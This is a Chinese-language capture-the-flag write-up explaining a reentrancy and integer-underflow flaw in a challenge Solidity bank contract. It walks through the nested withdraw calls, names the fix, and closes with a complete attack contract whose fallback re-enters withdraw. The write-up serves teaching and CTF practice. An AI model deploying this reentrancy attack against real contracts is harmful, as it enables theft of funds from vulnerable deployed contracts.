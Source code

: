 本题的 `get_flag_2` 函数要求你的 `balance` 必须超过 1000000000000 ether 才能把你的 `got_flag` 改成 true。`balance` 是这个合约维护的一个 mapping 变量，把每个地址映射到一个数值。合约中的逻辑是，你通过 `deposit` 函数往合约中存入多少币，就给你增加多少 `balance`。然后你也可以随时从合约中通过 `withdraw` 函数提走小于等于 `balance` 数额的币。通过存入 1000000000000 个币来满足要求是不现实的，所以我们需要利用漏洞。

在 `withdraw` 函数的 `msg.sender.call.value(amount)();` 一句代码中，合约会给调用者的地址上转账 `amount` 金额的币，但这里没有使用有 gas 限制的 `msg.sender.transfer` 或者 `msg.sender.send` 来转账，所以如果转账的目标是一个合约，合约接收到转账，它的 [fallback 函数](https://solidity.readthedocs.io/en/latest/contracts.html#fallback-function)会被运行。其实在编译题目的合约时，编译器在这里会提示一个 warning。

在这一步中，我们可以自己写一个新的合约，这个合约的 fallback 函数是 payable 的，然后当它被执行时，我们再次调用题目合约的 `withdraw` 函数。此时，`balance` 还没有被减去第一次转账的金额，所以转账可以再次发生。我们可以使用一个计数器让转账只会发生两次，然后 `balance` 也会被减去两次。如果第二次减法不够减，就会发生整数溢出。因为 `balance` 是无符号的，此时你的合约对应的 `balance` 会变成一个巨大的数，就可以去拿 flag 了。

这部分过程大概可以描述为：

```
withdraw(amount=100):
    题目合约中你的 balance 是 100，balance >= amount 满足
    向 sender 转账 100，此时 sender（即你的合约）fallback 函数被调用
        你的合约里面转账计数 n = 0，把 n 改为 1，再去调用题目合约 withdraw(amount=100):
            题目合约中你的 balance 是 100，balance >= amount 满足
            向 sender 转账 100，此时 sender（即你的合约）fallback 函数被调用
                你的合约里面转账计数 n = 1，返回题目合约
            balance 减去 100，得到 0
            withdraw 执行完毕，返回你的合约
        你的合约执行完毕，返回题目合约
    balance 减去 100，溢出得到一个巨大的数
    withdraw 执行完毕
```

在一个函数执行一半时，被打断，然后函数又被从头执行，在计算机中通常称为「Reentrancy（重入）」。如果函数的执行涉及到对全局变量的修改，那么很可能没有「可重入性」。

解决这类问题的方法有很多，比如不要让自己在不该被打断的时候打断，或者直接加锁禁止重入等等。对于题目这个合约，我们可以把转账那一行代码放在 `balance[msg.sender] -= amount;` 的后面以解决这个问题。

具体的解题合约如下，你需要以题目合约的地址为构造参数部署合约，然后调用它的 `hack` 函数，记得带上一定的以太币来调用函数。

如果题目合约中以太币数量为 0，那么第二次转账会失败，所以你可能需要提前用另一个地址给题目合约充一些币。

```solidity
contract Hack{
    uint public n;
    JCBank public c;
    constructor (JCBank addr) public payable {
        n = 0;
        c = addr;
    }
    
    function hack() public payable returns(bool) {
        c.deposit.value(1)();
        c.withdraw(1);
        c.get_flag_2(这里填写你的 id);
    }
    
    function () public payable {
        if (n == 0){
            n = 1;
            c.withdraw(1);
        }
    }
}
```
